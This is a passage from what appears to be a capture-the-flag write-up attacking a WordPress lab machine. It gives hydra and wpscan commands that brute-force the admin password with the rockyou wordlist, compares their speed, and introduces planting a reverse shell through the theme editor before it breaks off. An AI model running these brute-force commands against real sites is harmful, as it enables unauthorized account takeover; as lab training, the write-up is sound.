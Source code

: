 ```text
[+] Requests Done: 13
[+] Cached Requests: 48
[+] Data Sent: 3.457 KB
[+] Data Received: 9.149 KB
[+] Memory used: 244.301 MB
[+] Elapsed time: 00:00:05
```

Also see: [wpscan.log](wpscan.log)

We find we have a username of `admin`. My first instinct was to run hydra against the web form via:

```bash
hydra -I -l "admin" -P /usr/share/wordlists/rockyou.txt \                                                            
    $TARGET -t 50 http-post-form \
    "/blog/wp-login.php:log=admin^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:F=login_error"
```

However, after :15 minutes I got no hits. Actually, I did RE-run this with 50 threads after seeing in the write-up that they used a different technique, and specified 50 threads:

```bash
wpscan --url http://internal.thm/blog/ --usernames admin \
    --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```

This is notable because this apparently uses the `xmlrpc.php`, which is a web service - as opposed to `/blog/wp-login.php` which is a full-on web page. The web page is going to be significantly slower because it needs to re-render the whole page with each response. In summary:

| Technique:               | Time:                                      |
| ------------------------ | ------------------------------------------ |
| Hydra against a web form | :15+ minutes (did not finish/did not find) |
| WPScan against xmlrpc    | :02 minutes, :43 seconds                   |

Also see: [wpscan2.log](wpscan2.log)

## PHASE 3: Gaining Access & Exploitation

Now that we have a username (`admin`) and password from the `wpscan` against RockYou, we can log into the Wordpress site. If you have admin access to a CMS, what is the go-to? Overwrite one of the theme files with a reverse shell, and then execute it. So, from the Wordpress admin, I go into Theme Editor:
